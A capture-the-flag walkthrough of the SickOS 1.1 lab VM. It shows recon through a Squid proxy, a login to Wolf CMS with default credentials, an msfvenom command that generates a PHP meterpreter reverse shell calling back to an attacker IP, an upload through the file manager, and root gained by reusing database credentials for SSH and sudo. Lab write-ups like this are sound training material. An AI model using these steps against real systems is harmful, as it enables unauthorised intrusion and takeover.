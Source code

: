 # INTRO
This is my first machine (thats being uploaded). This machine emulates OSCP labs with the objective being to compromise the machine and gain root privileges.

# RECON
Using netdiscover I found the local ip of the machine and proceeded to run an nmap scan.
```
└─# nmap -A -sC -sV -Pn 192.168.1.152
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-01 21:45 +04
Stats: 0:00:32 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.23% done; ETC: 21:45 (0:00:00 remaining)
Nmap scan report for 192.168.1.152
Host is up (0.018s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 093d29a0da4814c165141e6a6c370409 (DSA)
|   2048 8463e9a88e993348dbf6d581abf208ec (RSA)
|_  256 51f6eb09f6b3e691ae36370cc8ee3427 (ECDSA)
3128/tcp open   http-proxy Squid http proxy 3.1.19
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported: GET HEAD
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/3.1.19
8080/tcp closed http-proxy
MAC Address: 1A:D6:C7:57:EB:DB (Unknown)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT      ADDRESS
1   17.67 ms 192.168.1.152

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.16 seconds

```

I can see that the port 3128 has an http proxy. I configure my browsers proxy settings to access the webpage. Nothing interesting on the page or page source. I ran dirb to search for any directories.
```
└─# dirb http://192.168.1.152 -p 192.168.1.152:3128

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Jan  1 21:51:09 2023
URL_BASE: http://192.168.1.152/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
PROXY: 192.168.1.152:3128

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.1.152/ ----
+ http://192.168.1.152/cgi-bin/ (CODE:403|SIZE:289)                                                                                                                                                                                          
+ http://192.168.1.152/connect (CODE:200|SIZE:109)                                                                                                                                                                                           
+ http://192.168.1.152/index (CODE:200|SIZE:21)                                                                                                                                                                                              
+ http://192.168.1.152/index.php (CODE:200|SIZE:21)                                                                                                                                                                                          
+ http://192.168.1.152/robots (CODE:200|SIZE:45)                                                                                                                                                                                             
+ http://192.168.1.152/robots.txt (CODE:200|SIZE:45)                                                                                                                                                                                         
+ http://192.168.1.152/server-status (CODE:403|SIZE:294)                                                                                                                                                                                     
                                                                                                                                                                                                                                             
-----------------
END_TIME: Sun Jan  1 21:51:49 2023
DOWNLOADED: 4612 - FOUND: 7
```
The robots.txt file gives us the following and leads to a content management system called wolfcms.
```
User-agent: *
Disallow: /
Dissalow: /wolfcms
```
http://192.168.1.152/wolfcms directs to the CMS with nothing special on the page. I tried entering /admin and /login to get to a login page but with no success I searched up the admin page directory for wolfcms and found http://192.168.152/?/admin. Trying to capture the network reqeust I entered the standard credentials admin:admin and I got logged in.

I browsed further and came across the file manager and uploaded a reverse tcp meterpreter payload I generated using msfvenom to /public and connected to it with a listener from msfconsole.
```
└─# msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.135 LPORT=4444 -f raw -o shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1114 bytes
Saved as: shell.php
```
After gaining a meterpreter session I found a config.php file and I cat the contents out to find credentials.
```
// Database settings:
define('DB_DSN', 'mysql:dbname=wolf;host=localhost;port=3306');
define('DB_USER', 'root');
define('DB_PASS', 'john@123');
define('TABLE_PREFIX', '');
```
Moreover I found a user called sickos in the home directory.
```
meterpreter > ls
Listing: /home
==============

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040755/rwxr-xr-x  4096  dir   2015-09-22 07:50:58 +0400  sickos
```
I tried to ssh to sickos with the credentials from the config file and it worked.
```
└─$ ssh sickos@192.168.1.152   
The authenticity of host '192.168.1.152 (192.168.1.152)' can't be established.
ECDSA key fingerprint is SHA256:fBxcsD9oGyzCgdxtn34OtTEDXIW4E9/RlkxombNm0y8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.1.152' (ECDSA) to the list of known hosts.
sickos@192.168.1.152's password: 
Welcome to Ubuntu 12.04.4 LTS (GNU/Linux 3.11.0-15-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Mon Jan  2 00:57:57 IST 2023

  System load:  0.0               Processes:           110
  Usage of /:   4.3% of 28.42GB   Users logged in:     0
  Memory usage: 10%               IP address for eth0: 192.168.1.152
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

124 packages can be updated.
92 updates are security updates.

New release '14.04.3 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Sun Jan  1 16:35:01 2023 from 192.168.1.135
```
And then I simply did 'sudo su' to gain root with the password john@123.
```
sickos@SickOs:~$ sudo su
[sudo] password for sickos: 
root@SickOs:/home/sickos# cd /root
root@SickOs:~# ls
a0216ea4d51874464078c618298b1367.txt
root@SickOs:~# cat a0216ea4d51874464078c618298b1367.txt 
If you are viewing this!!

ROOT!

You have Succesfully completed SickOS1.1.
Thanks for Trying


root@SickOs:~# 
```

